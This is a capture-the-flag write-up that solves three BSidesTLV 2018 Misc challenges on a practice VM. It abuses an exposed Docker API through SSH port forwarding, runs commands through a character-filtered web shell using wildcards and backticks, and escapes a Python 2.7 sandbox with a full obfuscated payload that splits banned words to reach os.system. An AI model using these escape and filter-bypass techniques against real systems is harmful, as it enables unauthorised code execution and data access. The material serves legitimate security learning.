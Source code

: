 ```yaml
---
layout: post
title: "BSidesTLV: 2018 CTF (Misc)"
date: 2018-10-24 18:53:07 +0000
last_modified_at: 2018-12-09 08:12:55 +0000
category: CTF
tags: [BSidesTLV]
comments: true
image:
  feature: bsidestlv.jpg
---
```


This post documents my attempt to complete [BSidesTLV: 2018 CTF (Misc)](https://www.vulnhub.com/entry/bsidestlv-2018-ctf,250/). If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

The 2018 BSidesTLV CTF competition brought together over 310 teams burning the midnight oil to crack our challenges in a bout that lasted for two weeks. You can now enjoy the same pain and suffering, using this easy-to-use, condensed VM that now hosts all our challenges in an easy to digest format. The CTF has five categories:

+ Web (10 challenges)
+ Reverse Engineering (3 challenges)
+ Misc (3 challenges)
  1. <a href="#{{ 'DockingStation' | downcase | replace: ' ', '-'}}">DockingStation</a>
  2. <a href="#{{ 'c1337Shell' | downcase | replace: ' ', '-'}}">c1337Shell</a>
  3. <a href="#{{ 'PySandbox-Insane' | downcase | replace: ' ', '-'}}">PySandbox-Insane</a>
+ Forensics (1 challenge)
+ Crypto (2 challenges)

What follows is my humble attempt of cracking the challenges in the **Misc** category.

### DockingStation

This is how the challenge looks like.

<a class="image-popup">
![c7de4a68.png](/assets/images/posts/bsidestlv-misc/c7de4a68.png)
</a>

After logging in, this is what I found.

<a class="image-popup">
![d59d61f1.png](/assets/images/posts/bsidestlv-misc/d59d61f1.png)
</a>

If I had to guess, I would say that's a Unix socket connected to a Docker. And since I've the SSH credentials, I can make use of SSH local port forwarding and connect to the Docker like so.

<a class="image-popup">
![3581904c.png](/assets/images/posts/bsidestlv-misc/3581904c.png)
</a>

Look Ma, got access to Docker [API](https://docs.docker.com/engine/api/v1.37/) without using Unix socket.

<a class="image-popup">
![b6f6570d.png](/assets/images/posts/bsidestlv-misc/b6f6570d.png)
</a>

The stopped container with the image `galf` is highly suspicious. On second look, notice the reverse of `galf` is `flag`? This must be it.

My attempts to start the container resulted in an error.

<a class="image-popup">
![c4f4c07b.png](/assets/images/posts/bsidestlv-misc/c4f4c07b.png)
</a>

I came across the command to export the entire container as a tarball after consulting the API.

<a class="image-popup">
![770aa59a.png](/assets/images/posts/bsidestlv-misc/770aa59a.png)
</a>

After extracting the files from the tarball, the flag is at `/home/flag_is_here/flag.txt`.

<a class="image-popup">
![d6da982b.png](/assets/images/posts/bsidestlv-misc/d6da982b.png)
</a>

The flag is `BSidesTLV{i_am_r34dy_t0_esc4p3_th3_d0ck3r!}`.

### c1337Shell

This is how the challenge looks like.

<a class="image-popup">
![f566bc99.png](/assets/images/posts/bsidestlv-misc/f566bc99.png)
</a>

Let's visit the challenge URL.

<a class="image-popup">
![cb794b70.png](/assets/images/posts/bsidestlv-misc/cb794b70.png)
</a>

Appears to be a web shell. Turns out that it doesn't accept alphanumerical characters and `$&|'<>`.

Look what happens when I supply a bad character?

<a class="image-popup">
![6806a44f.png](/assets/images/posts/bsidestlv-misc/6806a44f.png)
</a>

Now look what happens when I supply the tilde `~` character?

<a class="image-popup">
![1d3306cd.png](/assets/images/posts/bsidestlv-misc/1d3306cd.png)
</a>

In `bash`, the tilde `~` character represents the home directory of the current user. I suspect "the other side" is `echo`ing out shell output, whatever "the other side" is.

In that case, I should be able to use shell wildcards. The wildcard `?` and `*` represents single character and zero-or-more characters respectively.

Using these two wildcards, I was able to map out where the flag is.

<a class="image-popup">
![5aa73479.png](/assets/images/posts/bsidestlv-misc/5aa73479.png)
</a>

The problem now is this—how the f\*\*k do I display the flag with `cat`? With backticks `` `...` `` (or command substitution) and wildcards of course!

We know `cat` is at `/bin/cat`. We can use `/???/???` to represent it. Of course, there are other directories and commands behind that pattern. But, when you surround it with backticks, the shell should execute the command and skip the rest of the non-executable. Let's give it a shot.

<a class="image-popup">
![177cc70b.png](/assets/images/posts/bsidestlv-misc/177cc70b.png)
</a>

The flag is:

```
BSidesTLV{1_l1k3_wildcards_&_r3g3x_but_h8_th3_cr34t0r}
```

### PySandbox-Insane

This is how the challenge looks like.

<a class="image-popup">
![00261ba8.png](/assets/images/posts/bsidestlv-misc/00261ba8.png)
</a>

The aim of this challenge is to escape the sandbox and run the following code.

```py
import os; os.system("curl secret/flag.txt")
```

That's all. No more no less.

How do we crack this challenge then? Remember Python's axiom? _Everything is an object_. CPython provides [special methods](https://docs.python.org/3/reference/datamodel.html#special-method-names) to get/set attributes from/in an object. Essentially, CPython allows shortcuts or syntactic sugar for a simple statement such as `import os`. Under the hood, it's all special methods and/or special attributes at work.

For example, let's say you want to assign the integer `1` to variable `a`. This is how you do it in Python 2.7.

```
>>> a = 1
>>> a
1
```

Or, you can do it this way.

```
>>> __builtins__.__setattr__("a", 1)
>>> a
1
```

Which is another way of saying, "I'm setting an attribute with a name of 'a' and value of 1 in the `__builtins__` module." `__builtins__` is a module (an object by the way) that provides direct access to all the 'built-in' identifiers of Python. Use `__builtins__.__dict__` to view all the attributes of this object.

Armed with this simple introduction, how do we run the above code? Again, the challenge has provided the much-needed hints.

<a class="image-popup">
![53fa6e73.png](/assets/images/posts/bsidestlv-misc/53fa6e73.png)
</a>

If you look at the subclasses that inherit from `object`, you'll find that `warningmessage` is one of them.

<a class="image-popup">
![a9b63ff6.png](/assets/images/posts/bsidestlv-misc/a9b63ff6.png)
</a>

Dig deeper into the [source code](https://github.com/python/cpython/blob/2.7/Lib/warnings.py) of the `warnings` module, you'll see that the `warnings` module imports the `linecache` module.

<a class="image-popup">
![42b3f2fc.png](/assets/images/posts/bsidestlv-misc/42b3f2fc.png)
</a>

Further down the code, you'll find the `warnings.WarningMessage` class.

<a class="image-popup">
![c84f1469.png](/assets/images/posts/bsidestlv-misc/c84f1469.png)
</a>

We can continue into the [source code](https://github.com/python/cpython/blob/2.7/Lib/linecache.py) of the `linecache` module, and you'll see that it imports the `os` module.

<a class="image-popup">
![118b740a.png](/assets/images/posts/bsidestlv-misc/118b740a.png)
</a>

In summary, we can expand the code above like this.

```
obj = __builtins__.__class__.__mro__[1]
sub = obj.__subclasses__
war = sub()[58]
ini = war.__init__
glo = ini.func_globals
lin = glo["linecache"]
dic = lin.__dict__
ops = dic["os"]
run = ops.["system"]
run("curl secret/flag.txt")
```

Of course, certain words are still banned from use by the firewall. Recall how Python performs `a = 1` under the hood? It's actually setting an attribute in the `__builtins__` object. With that in mind, we can make use of another trick to bypass the firewall—first break up the banned words and then combine them back through concatenation. Python uses the `+` operator for string concatenation. In fact, Python uses `__add__` method-wrapper internally to do that.

For example, I can represent "curl" with `"cu".__add__("rl")`.

Here's the convoluted version. **Warning**: lots of typing ahead.

```py
__builtins__.__setattr__("obj",__builtins__.__getattribute__("__class".__add__("__")).mro(  ).__getitem__(1))
__builtins__.__setattr__("sub",obj.__getattribute__(obj,"__sub".__add__("classes__")))
__builtins__.__setattr__("war",sub( ).__getitem__(58))
__builtins__.__setattr__("ini",war.__getattribute__(war,"__in".__add__("it__")))
__builtins__.__setattr__("glo",ini.__getattribute__("__glo".__add__("bals__")))
__builtins__.__setattr__("lin",glo.__getitem__("line".__add__("cache")))
__builtins__.__setattr__("dic",lin.__getattribute__("__dic".__add__("t__")))
__builtins__.__setattr__("ops",dic.__getitem__("o".__add__("s")))
__builtins__.__setattr__("run",ops.__getattribute__("sy".__add__("stem")))
run("cu".__add__("rl	sec").__add__("ret/fl").__add__("ag.txt"))
```

I've also replaced space (`0x20`) with tab (`0x09`) to bypass the firewall.

<a class="image-popup">
![89b5efca.png](/assets/images/posts/bsidestlv-misc/89b5efca.png)
</a>

The flag is `BSidesTLV{I_AM_The_Python_Master}`.
